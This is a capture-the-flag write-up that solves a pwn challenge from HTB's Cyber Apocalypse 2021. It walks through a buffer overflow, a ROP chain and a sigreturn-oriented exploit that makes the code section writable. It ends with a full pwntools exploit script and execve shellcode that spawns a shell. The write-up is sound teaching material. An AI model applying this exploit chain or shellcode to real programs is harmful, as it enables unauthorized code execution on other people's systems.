 <pre style="font-size: 0.4rem; text-align: center">
                                                      *****************************************     
                                                    *********************************************   
                                                    **********************************************  
                                                    *****                                  *******  
                                                    ****                                    ******  
                                                    ****                                    ******  
                                                    ******                                ********  
                                                    **********************************************  
                                                    ****                                    ******  
                               *******              ***                                      *****  
                              *********             ****                                    ******  
                            ************            **********************************************  
                           **************           **********************************************  
                          ****************          ****                                    ******  
                         ***            ****        ***                                      *****  
                        ****             ****        ****                                  *******  
                       *****             *****        ********************************************  
                     *******            *******         ******************************************  
                    ********            ********         *****************************************  
                   *********            *********         ****************************************  
                  **********            ***********        ***********************     ***********  
                 ************           *************       *********************       **********  
                *************           **************       ********************       **********  
               **************           ***************       *********************    ***********  
             ****************           ****************        **********************************  
            *****************           *****************        *********************************  
           ******************          *******************        ********************************  
          *******************          *********************       *******************************  
         *********************        ***********************       ******************************  
        **********************         ***********************       *****************************  
      **********************            ***********************        ***************************  
     **********************              ***********************        **************************  
    ***********************              ************************        *************************  
   *************************             *************************       *************************  
  **************************            ***************************       ************************  
   ***************************        *****************************      *************************  
      **********************************************************         *************************  
                                                                        **************************  
                                                                       ***************************  
                                                                    *****************************           
</pre>

---

This was a pwn challenge rated with 325 points at Cyber Apocalypse 2021 CTF from HTB.
I didn't save the description of the chall but it said something about aliens. 

They only provide a binary. 

---

## First look

The first thing we notice when we open it is how small it is. Only a main function that calls `alarm` and `read`. There is an obvious buffer overflow because we read 0x100 bytes and the stack only expects 0x20 bytes.

![main](/./assets/imgs/main-drop.png)

Let's check the security of the binary:

![Security](/./assets/imgs/security-drop.png)

No canary (we already saw that in the `main` function), no PIC and NX bit.

So we have a very very small program (that means less ROP possibilities), that allows us to store a big amount of data into the stack and that's it.

The name of the challenge give us a clue but the real clue comes in the fact that a function called `sym._syscall` is loaded. The contents are:

```assembly
push rbp
mov rbp, rsp
syscall
ret
```

This is clearly an SROP. We can store more than 248 bytes (which is the size of the frame) and we have a syscall available. Let's do this.

## F

To trigger the `sigreturn` syscall we only need to set the `rax` register to 15 or 0xf and then call the `syscall` function with the frame in the stack.

Then, we can set all the registers to make the `.text` section writable by calling the `memprotect` syscall, redirect to main and write on the `.text` section whatever shellcode we want.

Let's search for a ROP gadget that allow us to set the `rax` register...none.

## The long road

How else could we set the `rax` register? Well, it is used for something else.

It is used as the return value from functions. And the `read` function returns the amount of bytes read. So if we could read only 15 bytes, we could set the `rax` register. 

But the ROP chain is going to be longer, obviously. Only the frame is 248 bytes. 

And we have another problem, the frame is going to use 248 bytes and we can read 0x100 bytes or, in base 10, 256 bytes. We can only use 8 more bytes for the ROP. We definetly need more than 8 bytes.

On the first read we have to store the ROP chain but if we trigger a second read we have to say where to store the data so we should move the `rsp` pointer to somewhere we know.

Let's make a list:

1. Store the ROP chain
2. Move the `rsp` to a static address.
4. Store the frame
5. Read 15 bytes to set the `rax` register.
6. Call the syscall.

Well, we have a gadget we could use to move the `rsp` (I am using [RopGadget](https://github.com/JonathanSalwan/ROPgadget) to get the gadgets) and also another for the `rsi` and `rdi` to set the parameters to the `read` function:

```assembly
0x00000000004005cd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005d3 : pop rdi ; ret
0x00000000004005d1 : pop rsi ; pop r15 ; ret
0x0000000000400416 : ret
```

We could use the `.data` section to redirect the new `rsp` there.

## Building the script

First, import `pwntools` and store all the addresses we need and the offset to the buffer overflow (0x20 + 8 for the `rbp`):

```python
from pwn import *

context.clear(arch="amd64")

offset = b'A' * 0x28
data_address = 0x00601028
read_address = 0x00400440
pop_rdi = 0x00000000004005d3
pop_rsi = 0x00000000004005d1
pop_rsp = 0x00000000004005cd
syscall = 0x0040053b
main = 0x00400541
```

In the first read we are going to store the next part of the ROP in the `.data` section:

> Notice: the read function reads as much data as stated in the argument or if the buffer holds less than that, as much as it is. This means that we have to fill the buffer with the amount of data read (0x100) so we avoid the function reading more than we want.


```python
first_read = offset + p64(pop_rdi) + b'\x00' * 8 + p64(pop_rsi) + p64(data_address) + b'\x00' * 8 + p64(read_address)
redirect_rsp = p64(pop_rsp) + p64(data_address - 8 * 3) 

p.send(first_read + redirect_rsp + b'\x00' * (0x100 - len(first_read + redirect_rsp )))
```

Perfect, now we send the second part of the ROP: another read for the frame, another one for the 0xf in `rax` and finally the call to `syscall`

> I added a bunch of ret just in case it was an ubuntu 18.04 with the movaps issue

```python
second_read = p64(pop_rdi) + p64(0x00) + p64(pop_rsi) + p64(data_address + 8 * 15) + b'\x00' * 8 + p64(ret) + p64(read_address) + p64(pop_rdi) + p64(0x00) + p64(pop_rsi) + p64(data_address + 900) + b'\x00' * 8 + p64(ret) + p64(read_address) + p64(syscall)

p.send(second_read + b'\x00' * (0x100 - (len(second_read))))
```

Perfect, let's send the frame and then the 0xf bytes with the main address so we can return after the `mprotect`. I'm using 0x400000 because of what the manual says about mprotect:

> The implementation may require that addr be a multiple of the page size as returned by sysconf()

```python
frame = SigreturnFrame(kernel="amd64")
frame.rax = 10 # mprotect syscall
frame.rdi = 0x00400000 # base address
frame.rsi = 200 # size
frame.rdx = 7 # permission RDX
frame.rsp = data_address + 900 # where the main address will be
frame.rip = syscall  

p.send(bytes(frame) + b'\x00' * (0x100 - len(frame)))
p.sendline(p64(main) + b'XXXXXX')
sleep(2)
```

> We are adding a sleep of 2 seconds because now we can't send the whole 0x100 bytes to fill the buffer. It is a dirty trick but it works.

Now we are back in the main with the `.text` section writable. Let's write a basic shellcode there to pop a shell. Same as before, ROP to write our input to the `main` function and redirect to that address:

```python
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

first_read = offset + p64(pop_rdi) + b'\x00' * 8 + p64(pop_rsi) + p64(0x00400570) + b'\x00' * 8 + p64(read_address) + p64(0x00400570)

p.send(first_read + b"\x00" * (0x100 - len(first_read)))
p.sendline(shellcode)

p.interactive()
```

And we got it!

![Flag](/./assets/imgs/flag-drop.png)
